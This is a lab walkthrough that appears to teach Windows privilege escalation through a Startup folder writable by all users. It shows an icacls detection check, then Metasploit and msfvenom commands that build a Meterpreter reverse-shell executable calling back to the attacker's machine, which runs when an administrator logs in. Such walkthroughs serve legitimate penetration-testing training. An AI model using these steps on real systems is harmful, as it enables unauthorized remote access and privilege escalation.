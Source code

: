 
# Escalation Path Startup Applications

This attack exploits **misconfigured permissions** on the Windows **Startup folder**. If **all users** have **write access**, an attacker can place a malicious executable that runs when an administrator logs in, leading to **privilege escalation**.

## Detection

**Windows VM**

Open command prompt and type: 

```
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

From the output notice that the `BUILTIN\Users` group has full access ‘(F)’ to the directory.

## Exploitation

**Kali VM**

Open command prompt and type: `msfconsole` 

In Metasploit (msf > prompt) type: `use multi/handler`  

In Metasploit (msf > prompt) type:

```
set payload windows/meterpreter/reverse_tcp
```

In Metasploit (msf > prompt) type:

```
set lhost [Kali VM IP Address]
```

In Metasploit (msf > prompt) type: `run`

Open another command prompt and type:

```
**msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe 
``` 

Copy the generated file, `x.exe`, to the Windows VM.

**Windows VM**

Place `x.exe` in `“C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”`. 


Logoff.  

Login with the administrator account credentials.

**Kali VM**

Wait for a session to be created, it may take a few seconds. 

In Meterpreter(meterpreter > prompt) type: ` getuid  `

From the output, notice the user is “`User-PC\Admin`”